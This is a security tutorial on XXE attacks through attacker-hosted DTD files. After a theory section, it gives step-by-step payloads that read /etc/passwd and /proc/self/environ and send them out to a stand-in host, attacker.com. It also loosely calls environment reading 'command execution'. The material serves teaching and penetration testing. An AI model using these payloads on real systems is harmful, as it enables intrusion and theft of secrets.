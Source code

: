 ```yaml
---
title: Exploiting XXE Vulnerabilities with DTD Files
description: Learn how XXE vulnerabilities can be exploited using attacker-controlled
  DTD files for data exfiltration or command execution.
keywords:
- XXE
- DTD
- XML
- data exfiltration
- command execution
- vulnerabilities
- external entities
- cybersecurity
---
```


# XXE Inside DTD File

## Context

The intent of this article is to demonstrate how XML External Entity (XXE) vulnerabilities can be exploited using attacker-controlled external Document Type Definition (DTD) files. This technique can lead to data exfiltration or even command execution in certain cases, depending on the server's configuration and the parser's capabilities. It assumes the reader is familiar with XML structure, DTD basics, entity declarations, and XML External Entity vulnerabilities.

## Theory

### Role of External DTDs in XXE Attacks

External DTDs are often used in XML structure to define entities that are outside the main XML document. The vulnerability arises when XML parsers are configured to fetch and process these external DTDs. Attackers can exploit this by supplying a malicious DTD file that the parser fetches, enabling the attacker to execute advanced XXE payloads. The typical attack sequence involves an attacker hosting a DTD, which a vulnerable parser fetches and processes, thereby executing the attacker's logic.

### DTD File Structure for XXE

A DTD file can declare parameter entities, general entities, and entity expansion chains. Parameter entities within these DTDs can reference files or URLs and can trigger further expansions. This capability allows the construction of complex payloads that can access local resources or external services.

### Standalone DTD Exfiltration Techniques

A common technique involves defining entities within a DTD to read sensitive files and exfiltrate the contents via out-of-band channels, such as HTTP. This exfiltration method relies on the parser's ability to resolve external entities and make outbound connections, opening a pathway for data theft.

### Attacker-Controlled DTD Hosting and MITM

For an attacker to execute a successful XXE attack using DTDs, they must control the location of the DTD file. This could be achieved by hosting the file on a web server or positioning themselves as a man-in-the-middle (MITM). When the victim's XML references this attacker-controlled DTD, the parser will fetch and execute the embedded XXE logic.

## Practice

### Exfiltrating Sensitive Files via External DTD

- **Step 1**: Host a malicious DTD file on a server you control.
  - This involves preparing a DTD to define your XXE payload.

- **Step 2**: Start a simple HTTP server to serve the DTD.
  ```bash
  python3 -m http.server 8000 --bind 0.0.0.0
  ```

- **Step 3**: Create a DTD payload to read `/etc/passwd` and exfiltrate it via HTTP.
  ```xml
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY exfil SYSTEM 'http://attacker.com:8000/?data=%file;'>">
  %eval;
  ```

- **Step 4**: Craft an XML document that references the external DTD.
  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE data SYSTEM "http://attacker.com:8000/malicious.dtd">
  <data>&exfil;</data>
  ```

- **Step 5**: Submit the crafted XML to the vulnerable application.
  - This could be done through various input methods like uploads, API endpoints, or direct POST requests.

- **Expected Outcome**: The HTTP server should receive GET requests with the contents of `/etc/passwd` appended to the URL, indicating successful data exfiltration.

### Command Execution via External DTD (if supported)

- **Step 1**: Modify the DTD to potentially execute commands using protocol handlers (parsing capabilities dependent).
  - If supported, this can include executing files or using dangerous protocol handlers.

- **Step 2**: Example DTD for environmental variable exfiltration (adapt for command output where applicable).
  ```xml
  <!ENTITY % cmd SYSTEM "file:///proc/self/environ">
  <!ENTITY % eval "<!ENTITY exfil SYSTEM 'http://attacker.com:8000/?env=%cmd;'>">
  %eval;
  ```

- **Step 3**: Craft corresponding XML referencing the external DTD.
  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE data SYSTEM "http://attacker.com:8000/malicious.dtd">
  <data>&exfil;</data>
  ```

- **Step 4**: Submit the XML to the vulnerable endpoint and observe the retrieval of command output or environment variables.

- **Expected Outcome**: If successful, output or environment data may appear in server logs, signifying possible command execution or environment access.

## Tools

- **python3**
- **Burp Suite**
- **nc**
- **custom HTTP server**